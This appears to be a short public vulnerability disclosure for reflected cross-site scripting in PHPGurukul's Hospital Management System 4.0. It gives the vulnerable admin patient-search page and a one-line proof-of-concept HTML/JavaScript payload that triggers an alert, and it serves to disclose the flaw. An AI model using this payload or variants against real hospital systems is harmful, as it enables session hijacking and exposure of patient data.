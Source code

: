 * Title: Hospital Management System Reflective cross-site scripting
* Exploit Author: Thinkland Security Team
* Vendor Homepage:https://phpgurukul.com/hospital-management-system-in-php
* Software Link:https://phpgurukul.com/wp-content/uploads/2018/02/Hospital-Management-System-Project.zip
* Version: 4.0
* Vulnerability verification
1. Enter username and password to log in
2. go to /Hospital%20Management%20System%20Project/hospital/hms/admin/patient-search.php,input the command:"><img src=1 onerror=alert(1)>
![image](https://github.com/BigTiger2020/Hospital-Management-System/blob/main/xss1.png)  
![image](https://github.com/BigTiger2020/Hospital-Management-System/blob/main/xss2.png)  
